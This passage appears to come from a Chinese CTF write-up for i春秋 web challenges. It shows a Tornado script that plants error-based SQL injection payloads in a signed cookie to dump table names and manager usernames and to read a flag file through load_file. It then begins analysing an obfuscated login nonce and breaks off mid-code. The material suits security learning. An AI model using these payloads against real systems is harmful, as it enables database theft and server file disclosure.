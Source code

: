 ```
        # self.set_secure_cookie("username","' and extractvalue(1,concat(0x5c,(select version()))) -- ")
        # self.set_secure_cookie("username", "' and extractvalue(1,concat(0x5c,(select group_concat(distinct table_name) from information_schema.tables where table_schema=database())))-- ")
        # self.set_secure_cookie("username","' and extractvalue(1,concat(0x5c,(select group_concat(distinct column_name) from information_schema.columns where table_schema=database() and table_name='manager')))-- ")
        # self.set_secure_cookie("username","' and extractvalue(1,concat(0x5c,mid((select group_concat(username) from manager),30,62))) -- ")
        # self.set_secure_cookie("username", "' and extractvalue(1,concat(0x5c,(select load_file('/var/www/html/f13g_ls_here.txt'))))#")
        self.set_secure_cookie("username", "' and extractvalue(1,concat(0x5c,mid((select load_file('/var/www/html/f13g_ls_here.txt')),28,60)))#")
        self.write(self.get_secure_cookie("username"))

def make_app():
    return tornado.web.Application([
        (r"/index", MainHandler),
        ], **settings)

if __name__ == "__main__":
    app = make_app()
    app.listen(8089)
    tornado.ioloop.IOLoop.instance().start()
```

2.访问i春秋login，cookie里加入username，但是页面没有报错，将login改为lock后报错，并回显信息
![image](http://note.youdao.com/yws/res/688/C339F77E0B454474BE632AA22EAC0988)

3.最后爆破username和password时没有正确回显，可能是环境被破坏，按照wp的用户和密码也登录不正确，跳过

4.根据wp，flag在f13g_ls_here.txt下，构造注入语句回显flag，由于flag长度做了限制，所以分两步爆破

[大佬的wp](https://www.cnblogs.com/wosun/p/11675151.html)

## Mangager(i春秋)

1.登录抓包发现post时会有_nonce参数，一串字符，前端login.js发现一段代码，生成的就是这个串随机码

```js
function getnonce() {
    var text = "";
    var possible = "0123456789abcdef";
    for (var i = 0; i < 40; i++)
        text += possible.charAt(Math.floor(Math.random() * possible.length));
    return text;
}
```
尝试修改这串码发现提示不合法， 猜测是前后端通用的验证机制

2.在boptstrap.js里有一段sign函数，太长了，粘贴部分

```
$(document).ready(function() {
	$("#" + "f" + "r" + "m" + "l" + "o" + "g" + "i" + "n").submit(function(e) {
	    //z1,z2为username和passowrd的值
	    var z1 = $("#" + "u" + "s" + "e" + "r" + "n" + "a" + "m" + "e").val();
	    var z2 = $("#" + "p" + "a" + "s" + "s" + "w" + "o" + "r" + "d").val();
	    $('<' + 'i' + 'n' + 'p' + 'u' + 't' + '>').attr({
		    type: 'h' + 'i' + 'd' + 'd' + 'e' + 'n',
		    name: '_' + 'n' + 'o' + 'n' + 'c' + 'e',
		    //这里是重点，调用的这个sign函数
		    //第三个参数"YTY" + "0Yj" + "M0Y" + "2Rh" + "ZTZ" + "iMj" + "liZ" + "jFj" + "OTQ" + "xOD" + "=="，也就是"YTY0YjM0Y2RhZTZiMjliZjFjOTQxOD=="
		    value: sign(z1 + z2, "YTY" + "0Yj" + "M0Y" + "2Rh" + "ZTZ" + "iMj" + "liZ" + "jFj" + "OTQ" + "xOD" + "==")
```